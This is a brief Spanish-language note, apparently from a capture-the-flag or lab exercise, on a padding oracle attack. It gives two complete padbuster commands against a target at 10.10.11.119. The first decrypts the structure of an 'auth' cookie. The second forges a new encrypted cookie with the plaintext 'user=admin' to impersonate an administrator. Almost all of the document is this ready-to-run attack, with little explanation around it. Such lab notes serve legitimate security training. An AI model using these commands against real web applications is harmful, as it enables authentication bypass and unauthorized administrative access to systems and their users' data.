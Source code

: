 # Padding Oracle Attack

# Obtener estructura de la cookie

```jsx
padbuster http://10.10.11.119 dVrPe7p%2F5NJM6Y1EUC%2FuySNhAaXCQn3F -cookies auth=dVrPe7p%2F5NJM6Y1EUC%2FuySNhAaXCQn3F 8
```

# Generar cookie

```jsx
padbuster http://10.10.11.119 dVrPe7p%2F5NJM6Y1EUC%2FuySNhAaXCQn3F -cookies auth=dVrPe7p%2F5NJM6Y1EUC%2FuySNhAaXCQn3F 8 -plaintext user=admin
```